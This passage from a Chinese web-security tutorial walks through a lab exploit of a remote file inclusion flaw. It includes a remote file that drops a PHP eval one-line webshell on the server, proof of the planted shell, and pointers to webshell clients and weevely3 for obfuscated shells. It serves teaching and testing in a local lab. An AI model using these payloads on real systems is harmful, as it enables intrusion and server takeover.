 此处我使用 Trmper Chrome 去抓包，然后在题目上的下拉菜单中选一个，点"提交"：


<Image alt="图片2.png" src="https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4CWALTY8AAQPl3E0Ay4160.png"/> 
  
图 2 用 Tamper Chrome 抓包

得到 GET 请求地址与参数，可以看出用于包含文件的参数 filename 被设置为 "include/file3.php"：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=include%2Ffile3.php&submit=%E6%8F%90%E4%BA%A4
```

修改 filename 参数为[http:/127.0.0.1/phpinfo.php](http://www.1491.com.tw/phpinfo.php)，该 phpinfo.php 就执行 phpinfo() 函数，访问如下 URL：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/phpinfo.php&submit=%E6%8F%90%E4%BA%A4
```

phpinfo 执行成功了：


<Image alt="图片3.png" src="https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4DSAJYH3AAQINnkRH5s611.png"/> 
  
图 3 远程文件包含执行 phpinfo

接入来利用就简单了，我们直接远程包含一个创建一句话木马的 txt 文件，不用 PHP 后缀是为了避免在自己服务器被执行。

为了演示，我在 [http://127.0.0.1/shell.txt](http://127.0.0.1/shell.txth) 创建文件（如果你没有自己的服务器，去 github 上存储一个木马文件也是可行的），写入如下代码，用于生成一句话木马：

```php
<?php
  $a = "<?php eval(\$_POST['Cknife'])?>";
  file_put_contents("a.php",$a);
?>
```

然后访问如下 URL 就会在服务端生成一句话木马文件 a.php：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/shell.txt&submit=%E6%8F%90%E4%BA%A4
```

成功生成一句话木马文件 a.php：

```java
sudo docker exec -it 7286434c6e88 /bin/bash
root@7286434c6e88:/# cat /var/www/html/a.php
<?php eval($_POST['Cknife'])?>
```

与《13 \| 文件上传漏洞：种植服务器木马的捷径》中关于文件上传漏洞利用的方法一样，你可以用 Cknife、菜刀、冰蝎等客户端工具去连接一句话木马，就可以直接控制服务器了，此处不再赘述。

前面介绍的一句话木马比较容易被检测到，个人喜欢使用 [weevely3](https://github.com/epinna/weevely3)，因为它支持变形的一句话木马：

```java
$ python3 weevely.py
[+] weevely 4.0.1
[!] Error: the following arguments are required: path
[+] Run terminal or command on the target
    weevely <URL> <password> [cmd]
[+] Recover an existing session
    weevely session <path> [cmd]
[+] Generate new agent
    weevely generate <password> <path>
$ python3 weevely.py generate 'test' ./shell.php
Generated './shell.php' with password 'test' of 761 byte size.
```
